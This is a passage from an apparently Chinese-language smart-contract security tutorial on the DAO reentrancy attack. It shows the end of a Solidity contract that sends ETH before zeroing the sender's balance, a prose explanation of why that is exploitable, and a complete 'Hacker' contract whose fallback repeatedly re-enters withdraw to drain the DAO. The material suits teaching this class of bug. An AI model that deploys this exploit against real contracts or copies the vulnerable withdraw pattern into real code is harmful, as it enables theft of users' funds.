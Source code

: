 ```
 (bool sent, ) = msg.sender.call{value: bal}("");
 require(sent, "Failed to withdraw sender's balance"); 
 // Update user's balance.
 balances[msg.sender] = 0;
 }

 function daoBalance() public view returns (uint256) {
 return address(this).balance;
 }
} 
```

注意以下事项:

*   智能合约维护投资者地址和 ETH 余额的映射。被投资的 ETH 是在合约本身的余额中持有，这与 余额 状态变量不同。
*   deposit() 要求最低出资 1 ETH，一旦收到出资，就增加投资者的余额。
*   撤回() 函数将撤回的 ETH 发送给投资者(使用msg . sender . call)*在* 之前将他们的余额重置为零。直到黑客的回退函数完成执行，发送事务才完成执行，因此直到回退函数完成，黑客的余额才被设置为零。这是 DAO 契约中的主要漏洞。

现在让我们来看看黑客的智能合同，它执行了漏洞利用。

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

interface IDao {
 function withdraw() external ;
 function deposit()external  payable;  }

contract Hacker{
 IDao dao; 
 constructor(address _dao){
 dao = IDao(_dao);
    }

 function attack() public payable {
 // Seed the Dao with at least 1 Ether.
 require(msg.value >= 1 ether, "Need at least 1 ether to commence attack.");
        dao.deposit{value: msg.value}();

 // Withdraw from Dao.
 dao.withdraw();
    }

 fallback() external payable{
 if(address(dao).balance >= 1 ether){
 dao.withdraw();
 }
    }

 function getBalance()public view returns (uint){
 return address(this).balance;
 }
}
```
